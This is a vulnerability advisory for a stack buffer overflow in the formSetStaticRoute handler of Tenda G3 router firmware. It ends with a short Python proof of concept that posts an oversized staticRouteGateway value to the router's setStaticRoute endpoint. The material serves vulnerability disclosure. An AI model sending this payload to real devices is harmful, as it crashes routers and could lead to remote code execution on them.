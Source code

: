 # Tenda G3 formSetStaticRoute
### Overview
vendor: Tenda

product: G3

version: <= G3V3.0br_V15.11.0.17

type: Stack Overflow

Firmware download address ： https://www.tenda.com.cn/material/show/3107
### Vulnerability Description
Tenda G3 G3V3.0br_V15.11.0.17 were discovered to contain a stack overflow in the formSetStaticRoute function.
### Vulnerability details
Stack-based buffer overflow in function formSetStaticRoute on Tenda G3 before G3V3.0br_V15.11.0.17 devices allow remote attackers to cause a denial of service or remote code execution via a crafted parameter for the http post request.

In the function formSetStaticRoute line 70, it reads in a user-provided parameter, and the variable staticRouteGateway is passed to the sprintf function without any length check, which may overflow the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.
![](images/formSetStaticRoute-1.png)
![](images/formSetStaticRoute-2.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/setStaticRoute'
payload = {
    "staticRouteGateway": 'a' * 1000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
